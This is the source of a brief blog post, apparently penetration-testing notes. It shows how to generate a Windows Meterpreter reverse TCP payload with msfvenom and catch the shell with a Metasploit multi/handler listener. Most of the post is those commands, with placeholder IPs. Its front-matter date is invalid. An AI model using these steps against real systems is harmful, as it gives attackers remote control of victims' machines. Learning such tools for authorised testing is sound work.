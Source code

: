 ```yaml
---
layout: post
title: "Meterpreter"
date:   2020-23-16 10:00:00
---
```


# Set up reverse TCP shell

To set up the reverse shell: 
 * You need to create your program which will be executed on the target
 * You need to launch a listener, awaiting for the connection (from your program)

To generate your program
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp lhost=[your IP] -f exe|msi|... -o name.exe|msi|...
{% endhighlight %}

You need to specify your IP and not the target IP since your program will try to connect with your machine.

To launch the listener
{% highlight bash %}
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost [your IP]
set lport [default 4444] | unset lport
run
{% endhighlight %}


Once the program is executed, you will see a session meterpreter.
You can have multiple sessions:
{% highlight bash %}
 sessions -i ID_meterpreter_session (on msfconsole, not meterpreter session)
 sessions -h
{% endhighlight %}

